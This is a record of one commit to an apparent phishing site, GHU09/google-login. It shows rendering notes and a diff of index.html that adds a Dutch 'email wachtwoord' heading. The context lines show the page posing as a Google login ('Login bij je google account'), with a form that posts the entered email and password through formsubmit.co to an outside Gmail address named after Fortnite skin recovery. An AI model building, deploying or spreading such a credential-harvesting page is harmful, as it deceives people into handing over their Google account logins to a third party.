

Before and after one commit to GHU09/google-login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,6 +6,7 @@
 
 <h1> Login bij je google account </h1>
 
+<h3>email            wachtwoord</h3>
 
 <form action="https://formsubmit.co/officialfortnite.skinrecovery@gmail.com" method="POST">
 <input type="email" name="email" required>
```
